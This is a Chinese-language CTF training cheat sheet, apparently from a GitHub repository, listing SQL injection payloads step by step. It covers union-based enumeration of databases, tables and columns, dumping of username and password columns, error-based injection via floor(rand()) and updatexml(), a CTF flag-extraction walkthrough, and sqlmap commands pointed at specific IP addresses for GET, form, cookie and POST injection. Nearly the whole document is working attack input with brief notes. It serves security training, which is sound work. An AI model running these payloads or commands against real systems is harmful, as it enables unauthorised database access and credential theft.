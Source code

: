 # xman培训

## 第一种sql

1. ?id=1
2. ?id=1'
3. ?id=1' order by 3 %23 **/数字可以到几就是有几列可以显示。目前只有三列** 
4. ?id=-1' union select 1,2,3 %23 **/查看是否可以显示123,匹配字段**
5. ?id=-1' union select 1,version(),user() %23 **/这里2和3可以显示**
6. ?id=-1' union select 1,@@version(),database() %23 **/爆数据库（@@datadir数据库路径， @@basedir       mysql安装路径，@@version_compile_os  操作系统）**
7. ?id=1' and 1=2 union select 1,2,schema_name from information_schema.schemata limit 4,5 %23 **/爆数据库，limit 4，5（显示5条记录）**
8. ?id=1' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1 %23  **/爆表，7365637572697479是上面的数据库名security转换16进制得来的,16进制常用，会被过滤**
9. ?id=1' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema=0x7365637572697479 and table_name=0x7573657273 limit 2,3 %23 **/获取列名** 
10. ?id=1' and 1=2 union select 1,2,concat_ws(char(32,58,32),username,password) from users limit 2,3 %23  **/获取内容**

## 第二种sql

1. ?id=-2' union select 1,user(),3 %23
2. ?id=1' and (select 1 from (select count(*),1,2,concat_ws(char(32,58,32),database(),floor(rand(0)*2))x from information_schema.tables group by x)a) %23
3. ?id=1' and (select 1 from (select count(*),1,2,concat_ws(char(32,58,32),(select password from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23 **/1：floor()语句：and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);其中version是想要查找的。2：updatexml() Ǘ:and (updatexml(1,concat(0x3a,(select user())),1));**

# 星澜ctf培训sql

1
1'
1'#
1' order by 1 #
1' order by 10 #
1' order by 5 #
1' order by 3 #
1' order by 4 #
0' union select 1,2,3,4#
0' union select 1,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),3,4#
fl4g,sc

0' union select 1,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=0x666c3467),3,4#
skctf_flag

0' union select 1,(select skctf_flag from fl4g limit 1),3,4#

# sqlmap工具

## GET注入

python sqlmap.py -u "http://219.153.49.228:40304/flag.php?type=1" -D pentesterlab -T flag --columns

## 登录框（表单）注入

python sqlmap.py -u "http://219.153.49.228:48317/index.php" --form -D purchase -T admin --columns --batch

## 伪静态注入

python sqlmap.py -u "http://xxx.com/abc/a*.html" --dbs

## cookie注入

python sqlmap.py -u "http://59.63.200.79:8004/shownews.asp" --cookie="id=171" --level 2

## post注入

python sqlmap.py -u "http://59.63.200.79:8003/bees/admin/login.php" --data "user=admin&password=1" --dbs

python sqlmap.py -r 1.txt --dbs

## 判断

### 判断注入权限

python sqlmap.py -u "http://219.153.49.228:48657/index.php" --form --is-dba

### 判断当前数据库

python sqlmap.py -u "http://219.153.49.228:48657/index.php" --form -current-db

